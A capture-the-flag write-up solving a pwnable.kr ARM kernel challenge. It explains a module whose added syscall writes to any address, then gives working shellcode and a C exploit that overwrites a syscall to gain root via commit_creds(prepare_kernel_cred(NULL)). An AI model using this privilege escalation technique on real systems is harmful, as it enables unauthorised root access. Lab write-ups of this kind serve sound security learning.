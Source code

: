 This is the first kernel exploitation challenge on pwnable.kr and it might seem scary, especially if you
have never done kernel exploitation before. So let's clarify some concepts which will help us
to better cognize the challenge:

### Process address space
In Linux each process has it's own virtual address space which is divided into two parts -
user space and kernel space (typically located at the lower and upper end of the address space respectively).
To prevent programs from tinkering with the kernel's memory, kernel space
can only be accessed when in kernel mode. To enter that mode processes usually invoke a system call
(like read, write etc). It's the kernel job then to safely handle the processes' requests, assuring
they are not trying to do anything outside their permissions.

### Kernel modules
The Linux kernel is monolithic but also modular, meaning you can add functionality to it by compiling it
with additional modules. The source code for this challenge defines such a module via the
`module_init` and `module_exit` macros:

```c
// adding a new system call : sys_upper

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/slab.h>
#include <linux/vmalloc.h>
#include <linux/mm.h>
#include <asm/unistd.h>
#include <asm/page.h>
#include <linux/syscalls.h>

#define SYS_CALL_TABLE		0x8000e348		// manually configure this address!!
#define NR_SYS_UNUSED		223

//Pointers to re-mapped writable pages
unsigned int** sct;

asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}

static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}

static void __exit exitmodule(void ){
	return;
}

module_init( initmodule );
module_exit( exitmodule );
```

As you can see this module's initialization function (`initmodule`)
is modifying the kernel's syscall table so that `sys_upper` can be invoked as a syscall with number 223.
The `sys_upper` function itself simply copies a string from `in` to `out`,
replacing any lower case characters with their upper case equivalents.

Equipped with the notion of user and kernel space we spot a potential vulnerability:
Since `sys_upper` is a syscall, it gets executed with kernel privileges,
meaning that we can copy strings (specifically malicious ones!) to any address including those in kernel space.

So let's write a shellcode that escalates out privileges and inject it somewhere in the kernel.
The easiest way to achieve this is by combining the following kernel functions:

```c
commit_creds(prepare_kernel_cred(NULL))
```
Explanation:

- `prepare_kernel_cred(NULL)` - when invoked with `NULL` this function returns a pointer
  to a credentials struct that encodes root privileges.
- `commit_creds(struct cred*)` - applies/"commits" credentials.

You can find the symbols of these functions by reading from `/proc/kallsyms` on the pwnable server.

### ARM calling convention:
The pwnable server is using `32-bit arm` architecture.
For a somewhat-complete overview of `arm`'s calling convention you can read [here](https://en.wikipedia.org/wiki/Calling_convention#ARM_(A32)).
What's most important to us is how arguments are passed to functions, as it's different from `x86`:
`r0 to r3 hold argument values passed to a subroutine and results returned from a subroutine.`
With the arm semantics in mind I constructed the following shellcode (note, you might have to install an `arm` toolchain for the assembling):
```python
from pwn import *

context.arch = 'arm'

shellcode = asm('''
push {r3, fp, lr}
add  fp, sp, $4
ldr  r1, =0x80064c8c
blx  r1
ldr  r1, =0x8003f924
blx  r1
ldr  r1, =0x8003f55c
add  r1, $0x10
blx  r1
pop  {r3, fp, pc}
''')

print(''.join('\\x{:02x}'.format(byte) for byte in shellcode))
```
I couldn't figure out how to embed comments into the assembly string so here are some clarifications:

- `0x80064c8c` - the address of `bool is_module_address(unsigned long addr)`, this is a random kernel function which
  fortunately happened to return 0. This call is necessary for zeroing out `r0` which can't be done by
  any of the conventional `xor r0, r1, r1`, `mov r0, #0`, etc. instructions since all of them contain
  a `\x00` (string termination) byte in their assembled versions.
- `0x8003f924` - the address of `prepare_kernel_cred()`, to invoke it with `NULL` `r0` has to be 0.
- `0x8003f56c` - the address of `commit_creds(struct cred *)`, We call this function just after `prepare_kernel_cred` so that
  the return value of the latter (that is the root privilege credential struct) is used as the function argument.
- Pushing/Popping the `r3` register and splitting the `commit_creds`' address is necessary
  for not having lower case characters and the `\x00` byte as parts of the shellcode.

Now, back to the exploit, I inserted the script output into the `shellcode` variable in the C snippet bellow.
As you can see it does not contain any `\x00` bytes or bytes lying in the `[\x61, \x7a]` range which means
the shellcode would be copied identically. I used the `getgid` syscall for the shellcode destination:
```c
#include <stdint.h>
#include <sys/syscall.h>
#include <unistd.h>
#include <stdlib.h>

char shellcode[] = "\x08\x48\x2d\xe9\x04\xb0\x8d\xe2\x18\x10\x9f\xe5\x31\xff\x2f\xe1\x14\x10\x9f\xe5\x31\xff\x2f\xe1\x10\x10\x9f\xe5\x10\x10\x81\xe2\x31\xff\x2f\xe1\x08\x88\xbd\xe8\x8c\x4c\x06\x80\x24\xf9\x03\x80\x5c\xf5\x03\x80";

int main() {
	uintptr_t sys_getgid = 0x8002f958;
	syscall(223, shellcode, sys_getgid);
	syscall(SYS_getgid);
	system("/bin/sh");
	return 0;
}
```

After gaining root privileges we can just get shell and go on about our day.

Here is a showcase of the final exploit on the pwnable server, don't worry about the `can't access tty` message,
`/bin/sh` still gets executed successfully:

```
/tmp $ gcc exploit.c
/tmp $ ./a.out
/bin/sh: can't access tty; job control turned off
/tmp $ cat /root/flag
...(flag)...
```
